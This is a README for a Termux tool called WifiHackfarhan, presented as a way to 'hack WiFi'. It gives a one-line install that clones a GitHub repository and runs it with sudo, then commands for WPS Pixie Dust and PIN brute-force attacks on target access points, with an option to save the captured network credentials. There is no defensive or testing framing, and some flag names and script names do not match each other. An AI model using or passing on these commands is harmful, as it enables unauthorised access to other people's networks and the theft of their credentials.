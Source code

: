 ### One click Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan && cd WifiHackfarhan && sudo python WifiHackfarhan.py -i wlan0 -K 
```
### Hack WIfi Using Termux! (Requires Root)
![image](https://github.com/Gtajisan/WifiHackfarhan/assets/124022055/4a7add22-11b7-4443-a44c-6794431589b2)

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan
 ```
 ```
 cd WifiHackfarhan
 ```
### Running
 ```
 sudo python WifiHackfarhan.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K
 ```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
## cd WifiHackfarhan
## sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K

